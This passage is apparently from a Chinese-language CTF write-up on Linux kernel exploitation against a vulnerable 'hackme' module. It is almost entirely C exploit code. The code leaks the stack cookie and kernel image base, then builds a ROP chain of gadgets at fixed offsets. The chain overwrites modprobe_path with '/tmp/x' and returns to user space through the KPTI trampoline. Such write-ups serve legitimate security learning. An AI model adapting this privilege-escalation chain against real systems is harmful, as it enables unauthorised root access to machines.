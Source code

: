 ```
unsigned long pop_rax_ret = image_base + 0x4d11UL; // pop rax; ret;
unsigned long pop_rbx_r12_rbp_ret = image_base + 0x3190UL; // pop rbx ; pop r12 ; pop rbp ; ret;
unsigned long write_ptr_rbx_rax_pop2_ret = image_base + 0x306dUL; // mov qword ptr [rbx], rax; pop rbx; pop rbp; ret;
```

我们泄漏内核映像基址，可以使用`hackme_read()`操作来计算这些地址：

```
void leak(void)`{`
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_rax_ret = image_base + 0x4d11UL;
    pop_rbx_r12_rbp_ret = image_base + 0x3190UL;
    write_ptr_rbx_rax_pop2_ret = image_base + 0x306dUL;
    modprobe_path = image_base + 0x1061820UL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("    --&gt; Cookie: %lx\n", cookie);
    printf("    --&gt; Image base: %lx\n", image_base);
`}`
```

### <a class="reference-link" name="3.2%20%E8%A6%86%E5%86%99modprobe_path"></a>3.2 覆写modprobe_path

在泄漏后，现在的目标是将`modprobe_path`覆盖为我们可以控制的文件的路径。在大多数Linux系统中，我们可以以任意用户的身份自由地读写`/tmp`目录，因此我将使用上述三个小工具将`modprobe_path`覆盖到名为`/tmp/x`的文件中，然后在经过`kpti_trampoline`后，安全地返回到用户空间中的函数`get_flag()`。

```
void overflow(void)`{`
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = 0x782f706d742f; // rax &lt;- "/tmp/x"
    payload[off++] = pop_rbx_r12_rbp_ret;
    payload[off++] = modprobe_path; // rbx &lt;- modprobe_path
    payload[off++] = 0x0; // dummy r12
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = write_ptr_rbx_rax_pop2_ret; // modprobe_path &lt;- "/tmp/x"
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_flag;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to overwrite modprobe_path");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
`}`
```